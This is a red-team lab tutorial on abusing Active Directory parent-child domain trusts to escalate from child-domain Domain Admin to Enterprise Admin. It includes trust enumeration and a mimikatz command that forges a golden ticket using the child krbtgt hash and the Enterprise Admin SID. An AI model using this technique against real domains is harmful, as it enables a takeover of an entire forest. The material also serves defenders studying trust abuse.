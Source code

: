 # Abusing Parent Child Domain Trusts for Privilege Escalation from DA to EA

⇒ So we will be learning about how to abuse **`Child ↔ Parent`** domain trusts relationship for privilege escalation from **`Domain Admin`** ( in child domain ) to **`Enterprise Admin`** in the forest.

- Refer to Child Domain lab Setup guide to setup the environment required for this attack

⇒ So if we compromise a **`child domain`** and get the **`krbtgt`** hash of a **`child domain`** and the **`Enterpise Admin`** SID that is **`[ParentDomainSID]-519`** . We can then craft a golden ticket using the info with mimikatz and get **`Enterprise Admin`** on the **`parent domain`**.

> If you compromise the domain controller of a child domain in a forest, you can compromise its entire parent domain.
~harmj0y

---

## Performing the Attack

⇒ Tool Required for this attack:

- mimikatz
- PowerView

⇒ Okay so after compromising the child domain [ **`child.endark.local`** ] we check the **`trusts`** relationship between the parent and child domain :

```python
Get-ADTrust -Filter *
```

![Abusing%20Parent%20Child%20Domain%20Trusts%20for%20Privilege%20Escalation%20from%20DA%20to%20EA/Untitled.png](Abusing%20Parent%20Child%20Domain%20Trusts%20for%20Privilege%20Escalation%20from%20DA%20to%20EA/Untitled.png)

- We see that the trust relationship is **`BiDirectional`** which basically means that members can authenticate from one domain to another when they want to access shared resources.

⇒ Now to craft a Golden Ticket we require

- krbtgt hash in child domain

![Untitled%201.png](Abusing%20Parent%20Child%20Domain%20Trusts%20for%20Privilege%20Escalation%20from%20DA%20to%20EA/Untitled%201.png)

- child domain sid [ baby.endark.local ]

![Untitled%202.png](Abusing%20Parent%20Child%20Domain%20Trusts%20for%20Privilege%20Escalation%20from%20DA%20to%20EA/Untitled%202.png)

- Enterprise Admin SID

![Untitled%203.png](Abusing%20Parent%20Child%20Domain%20Trusts%20for%20Privilege%20Escalation%20from%20DA%20to%20EA/Untitled%203.png)

⇒ Now lets start crafting the Golden Ticket using mimikatz

```python
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:baby.endark.local /sid:<Child Domain SID> /krbtgt:<krbtgt hash> /sids:<EnterpriseAdmin SID>" "exit"
```

![Untitled%204.png](Abusing%20Parent%20Child%20Domain%20Trusts%20for%20Privilege%20Escalation%20from%20DA%20to%20EA/Untitled%204.png)

⇒ Next we will load the ticket and get a shell on vDC01 in the root domain :

![Untitled%205.png](Abusing%20Parent%20Child%20Domain%20Trusts%20for%20Privilege%20Escalation%20from%20DA%20to%20EA/Untitled%205.png)

- Using **`Enter-PSSession`**:

![Untitled%206.png](Abusing%20Parent%20Child%20Domain%20Trusts%20for%20Privilege%20Escalation%20from%20DA%20to%20EA/Untitled%206.png)

![Untitled%207.png](Abusing%20Parent%20Child%20Domain%20Trusts%20for%20Privilege%20Escalation%20from%20DA%20to%20EA/Untitled%207.png)

- Using **`Invoke-Command`**:

![Untitled%208.png](Abusing%20Parent%20Child%20Domain%20Trusts%20for%20Privilege%20Escalation%20from%20DA%20to%20EA/Untitled%208.png)

**⇒ We have successfully compromised vDC01 through vDC02 by abusing the trusts relationship between child and parent domains**

---

References : [http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/](http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/)

## Author: d4rckh and enox
